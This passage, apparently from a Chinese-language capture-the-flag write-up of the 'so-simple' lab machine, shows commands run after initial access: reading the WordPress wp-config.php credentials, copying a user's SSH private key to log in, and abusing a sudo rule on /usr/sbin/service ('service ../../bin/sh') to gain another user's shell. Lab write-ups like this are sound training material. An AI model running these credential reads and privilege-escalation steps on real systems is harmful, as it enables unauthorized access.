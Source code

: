 查看 wp 的数据库配置文件，得到连接数据库的密码：

```
www-data@so-simple:/var/www/html/wordpress$ cat wp-config.php

define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wp_user' );
define( 'DB_PASSWORD', 'password' );
define( 'DB_HOST', 'localhost' );
```

这个密码好像暂时没什么用。

在/home/max 目录发现(被嘲笑了)，都是兔子洞：

```
www-data@so-simple:/home/max$ cat personal.txt
SGFoYWhhaGFoYSwgaXQncyBub3QgdGhhdCBlYXN5ICEhISA=   --> Hahahahaha, it's not that easy !!!

www-data@so-simple:/home/max$ cat this/is/maybe/the/way/to/a/password/password.txt
Haha, you wish!! :)

www-data@so-simple:/home/max$ cat this/is/maybe/the/way/to/a/rabbit_hole/rabbit-hole.txt

www-data@so-simple:/home/max$ cat this/is/maybe/the/way/to/a/private_key/id_rsa
```

.ssh 目录发现私钥：

```
www-data@so-simple:/home/max/.ssh$ cat id_rsa
```

保存到本地，chmod 600 ,然后使用私钥登陆：

```
chmod 600 id_rsa
ssh -i id_rsa max@192.168.5.30
```

得到了第一个 flag：

```
max@so-simple:~$ cat user.txt
073dafccfe902526cee753455ff1dbb0
```

sudo 发现：

```
(steven) NOPASSWD: /usr/sbin/service
```

进行利用,得到了 steven 权限：

```
sudo -u steven service ../../bin/sh

$ id
uid=1001(steven) gid=1001(steven) groups=1001(steven)
```
